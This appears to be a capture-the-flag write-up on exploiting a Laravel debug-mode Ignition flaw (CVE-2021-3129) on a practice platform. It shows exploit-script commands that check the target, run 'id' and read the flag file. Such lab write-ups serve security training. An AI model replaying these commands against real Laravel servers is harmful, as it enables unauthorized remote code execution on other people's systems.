

Abusing Laravel Ignition Package Vulnerability
First, we have a URL for the target:
https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p
Let's examine it.

Not much going on, but there's a version number visible — and it's the latest release. Hitting Ctrl+U to view the source code revealed something interesting:

The app is still in debug mode, with another path pointing to the real running instance. Time to look for vulnerabilities for this version.
Laravel v8.4.0 is affected by several critical vulnerabilities, most notably an RCE flaw that triggers when debug mode is enabled.
https://github.com/joshuavanderpoll/CVE-2021-3129
Nice ;)
After installing the exploit and its requirements, let's run it:
❯ python3 CVE-2021-3129.py --host https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p 
Target is vulnerable. Let's confirm code execution:
❯ python3 CVE-2021-3129.py --host https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p --force --exec "id"
I wanted to pop a shell, but didn't have time — so I grabbed the flag directly through the exploit instead.
-_-
❯ python3 CVE-2021-3129.py --host https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p --force --exec "cat /flag.txt"
https://infinity.cyberwarfare.live/on_premise/onpremise_offensive/challenges/67e56221840203741a9c284d